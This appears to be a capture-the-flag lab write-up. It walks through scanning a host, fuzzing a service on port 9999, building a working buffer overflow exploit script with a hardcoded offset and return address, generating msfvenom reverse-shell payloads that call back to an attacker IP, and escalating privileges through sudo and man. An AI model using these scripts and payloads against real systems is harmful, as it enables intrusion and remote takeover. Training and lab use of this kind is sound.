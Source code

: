 # Gatekeeper

> Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 -p- 10.10.92.209`
	- `nmap -T4 -A -p 10000,9999`
	- find interesting app running on port 9999 
2. enumerate port 10000 (a web server)
	- visit website
	- run gobuster: `gobuster dir -u http://10.10.81.71:10000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,bak,conf,txt,js,php,bin`
	- found "/bin" directory that contain "brainpan.exe"
3. find buffer overflow:
	- download brainpan.exe onto a Windows VM (32-bit)
	- find EIP:
		- edit fuzzer.py script:
		```python
		#!/usr/bin/env python3
		import socket, time, sys

		ip = "10.0.1.6"
		port = 9999
		timeout = 5
		prefix = ""
		string = "A" * 100

		while True:
		  try:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
			  s.settimeout(timeout)
			  s.connect((ip, port))
			  print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
			  s.send(bytes(string + "\r\n", "latin-1"))
			  s.recv(1024)
		  except:
			print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
			sys.exit(0)
		  string += 100 * "A"
		  time.sleep(1)
		```
		- start brainpan.exe in Immunity Debugger and execute fuzzer.py -- crashed after 700 bytes
		- create cyclic pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700`
		- edit exploit.py script:
		```
		#!/usr/bin/env python3
		import socket

		ip = "10.0.1.6"
		port = 9999
		prefix = ""
		offset = 0
		overflow = "A" * offset
		retn = ""
		padding = ""
		payload = "<cyclic_pattern>"
		postfix = ""

		buffer = prefix + overflow + retn + padding + payload + postfix

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
		  s.connect((ip, port))
		  print("Sending evil buffer...")
		  s.send(bytes(buffer + "\r\n", "latin-1"))
		  print("Done!")
		except:
		  print("Could not connect.")
		```
		- in Immunity run: `!mona findmsp -distance 700` -- EIP offset = 524
	- find bad chars:
		- in Immunity run: `!mona bytearray -cpb \x00`
		- copy bytearray.txt to exploit.py script and fill in offset and retn:
		```python
		#!/usr/bin/env python3
		import socket

		ip = "10.0.1.6"
		port = 9999
		prefix = ""
		offset = 524
		overflow = "A" * offset
		retn = "BBBB"
		padding = ""
		payload = (<bytearray>)
		postfix = ""

		buffer = prefix + overflow + retn + padding + payload + postfix

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
		  s.connect((ip, port))
		  print("Sending evil buffer...")
		  s.send(bytes(buffer + "\r\n", "latin-1"))
		  print("Done!")
		except:
		  print("Could not connect.")#
		```
		- restart brainpan.exe in Immunity and run exploit.py again
		- in Immunity run: `!mona compare -f c:\mona\brainpan\bytearray.bin -a esp` -- no more bad chars found 
	- find jump point:
		- in Immunity run: `!mona jmp -r esp -cpb \x00`
		- found addres: "311712f3"
	- generate payload:
		- `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.1.5 lport=1234 -f c  -b "\x00" -a x86`
	- edit exploit.py:
	```python
	#!/usr/bin/env python3
	import socket

	ip = "10.0.1.6"
	port = 9999
	prefix = ""
	offset = 524
	overflow = "A" * offset
	retn = "\xf3\x12\x17\x31"
	padding = "\x90" * 16
	payload = (<msfvenom_payload>)
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
	  s.connect((ip, port))
	  print("Sending evil buffer...")
	  s.send(bytes(buffer + "\r\n", "latin-1"))
	  print("Done!")
	except:
	  print("Could not connect.")
	```
	- restart brainpan.exe and run exploit.py -- sucess
4. exploit buffer overflow:
	- edit payload and exploit.py script
	- run against real target -- success
5. escalate privileges:
	- check privileges: `getprivs` -- have SeImpersonatePrivilege
	- box is using emulated Windows so get Linux shell instead (replacing payload for buffer overflow with a Linux shell generated with: `msfvenom -p linux/x86/shell_reverse_tcp lhost=10.11.31.198 lport=4444 -f c -a x86 EXITFUNC=thread -b "\x00"`)
	- check sudo permission: `sudo -l` -- can run "/home/anansi/bin/anansi_util" (appears to run the `man` command)
	- lookup "man" on GTFO Bins -- found Sudo privilege esclation -- success